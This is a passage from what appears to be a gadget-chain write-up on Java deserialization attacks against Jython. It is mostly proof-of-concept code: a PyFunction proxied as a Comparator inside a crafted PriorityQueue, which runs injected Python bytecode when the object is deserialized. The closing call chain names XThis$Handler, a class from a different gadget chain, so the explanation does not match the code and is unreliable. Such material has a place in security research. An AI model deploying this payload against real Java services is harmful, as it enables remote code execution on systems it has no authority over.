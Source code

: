 ```java
        field.setAccessible(true);
        field.set(bytecode, new BigInteger(pythonByteCode, 16).toByteArray());

        // Initialize PyFunction with PyBytecode
        PyFunction handler = new PyFunction(new PyStringMap(), null, bytecode);

        // Use PyFunction proxy Comparator
        Comparator comparator = (Comparator) Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class<?>[]{Comparator.class}, handler);

        PriorityQueue<Object> priorityQueue = new PriorityQueue<Object>(2, comparator);
        Object[] queue = new Object[]{path, code};

        Field queueField = PriorityQueue.class.getDeclaredField("queue");
        queueField.setAccessible(true);
        queueField.set(priorityQueue, queue);

        Field sizeField = PriorityQueue.class.getDeclaredField("size");
        sizeField.setAccessible(true);
        sizeField.set(priorityQueue, 2);

        try {
            // Serialization
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(priorityQueue);
            objectOutputStream.close();

            // Deserialization
            ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }

    }
}
```

<div align=center><img src="./images/7.png"></div>

# Call chain

```java
PriorityQueue.readObject()
    Comparator.compare()
            XThis$Handler.invoke()
                PyFunction.invokeImpl()
                    PyBytecode.call()
```
